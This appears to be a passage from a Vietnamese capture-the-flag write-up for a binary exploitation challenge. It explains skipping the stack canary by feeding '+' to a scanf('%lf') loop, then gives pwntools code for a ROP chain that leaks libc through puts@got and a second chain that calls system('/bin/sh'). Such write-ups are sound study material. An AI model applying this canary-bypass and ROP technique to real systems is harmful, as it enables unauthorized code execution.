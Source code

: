     Vậy địa chỉ của `view()` sẽ là `0x400fd5`


Khi debug thì ta sẽ test xem nó overwrite canary ở index thứ mấy bằng GDB, ở đây để cho lẹ thì mình đã tìm thấy nó ở index thứ `33` (tính từ 0 → 33). Nhưng để bypass canary thì ta không được để cho nó overwrite tại lần nhập thứ `34` . Dựa vào [**đây**](https://www.gnu.org/software/libc/manual/html_node/Parsing-of-Integers.html) ta thấy:

> If the string is empty, contains only whitespace, or does not contain an initial substring that has the expected syntax for an integer in the specified base, no conversion is performed.
>

Nên khi ta nhập kí tự nào đó khác số ở đây ta sẽ chọn nhập `+ hoặc -` vì 2 kí tự đó cũng được nằm trong phần chấp nhận được. Nên nếu ta chỉ đơn giản input `+` và không có số theo sau thì nó sẽ không write gì cả, và bên cạnh đó nó được chấp nhận. Còn một cách giải thích khác là dựa vào:

```c
__isoc99_scanf("%lf", &v10[i]);
```

Vì ở đây nó dùng `%lf` nên khi ta nhập một kí tự nào đó nằm ngoài khả năng xử lý của nó thì nó sẽ không làm gì cả.

Nhiêu đó thôi ta cũng đủ để bypass canary, và tiếp đến là tận dụng `GOT` để leak `libc` :

```python
# Leak libc address
sla(b'> ', b'2')
sla(b': ', b'39')
send_floats(
	[1.0] * 33 + [
    '+', # Canary
    5.0, # Saved rbp
    # hex2float(ret),
    hex2float(pop_rdi), # Saved rip
    hex2float(exe.got.puts),
    hex2float(exe.plt.puts),
    hex2float(main_addr)]
    )

rl()
leak = u64(rl()[:-1] + b"\0\0")
libc.address = leak - libc.sym.puts
info(f'Leak: {hex(leak)}')
info(f'Libc base: {hex(libc.address)}')
sleep(0.5)
```

# Get shell

Khi đã có được `libc base` và `canary` rồi thì việc get shell là một chuyện đơn giản

```python
# Get shell
sla(b'> ', b'2')
sla(b': ', b'39')
send_floats(
	[0.0] * 33 + [
    '+', # Canary
    5.0, # Saved rbp
    hex2float(ret), # Saved rip
    hex2float(pop_rdi),
    hex2float(next(libc.search(b'/bin/sh'))),
    hex2float(libc.sym.system)]
    )
```

